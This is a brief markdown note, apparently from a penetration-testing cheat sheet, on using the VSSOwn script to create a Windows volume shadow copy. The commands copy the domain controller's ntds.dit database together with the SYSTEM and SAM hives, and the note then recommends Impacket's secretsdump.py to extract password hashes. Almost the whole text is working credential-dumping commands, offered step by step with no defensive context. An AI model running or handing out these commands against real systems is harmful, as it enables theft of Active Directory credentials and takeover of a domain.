 ## VSSOwn usage

VSSOwn is used to create a copy of the ntds.dit file. 

``cscript vssown.vbs /status``

``cscript vssown.vbs /start``

``cscript vssown.vbs /create /c``

``copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\ntds\ntds.dit ntdsbackup.dit``

``copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SYSTEM systembackup.bak``

``copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SAM sambackup.bak``

From the above commands, we copied the ntds, SYSTEM and SAM. The SYSTEM and SAM portions will be needed becaue they contain the decryption keys needed to extract the hashes from the 
ntds.dit file. 

Once we have these, we can stop the VSSOwn tool

``cscript vssown.vbs /stop``

It is recommended, after this is complete, use the tool ``secretsdump.py`` from Impacket to extract the hashes.
